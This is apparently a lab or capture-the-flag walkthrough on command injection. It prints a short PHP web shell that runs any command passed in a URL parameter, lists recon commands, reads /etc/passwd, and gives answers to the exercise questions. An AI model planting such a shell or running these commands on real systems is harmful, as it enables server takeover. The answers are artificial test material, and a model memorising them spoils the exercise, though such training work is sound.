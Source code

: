 **EvilShell (evilshell.php) Code Example**

```php
<?php

	if(isset($_GET['commandString'])){
		$command_string = $_GET['commandString'];
		try{
			passthru($command_string);
		}catch(Error $error){
			echo "<p class=mt-3><b>$error</b></p>";
		}
	}


?>
```

> **passthru** — Execute an external program and display raw output, ([more](https://www.php.net/manual/en/function.passthru.php))

Commands to try

* Linux:

    * whoami
    * id
    * ifconfig/ip addr
    * uname -a
    * ps -ef

---

1. What strange text file is in the website root directory?

```
drpepper.txt
```

2. How many non-root/non-service/non-daemon users are there?

```
0
```

3. What user is this app running as?

```
www-data
```

4. What is the user's shell set as?

```bash
grep "www-data" </etc/passwd | cut -f 7 -d ":"
/usr/sbin/nologin
```

5. What version of Ubuntu is running?

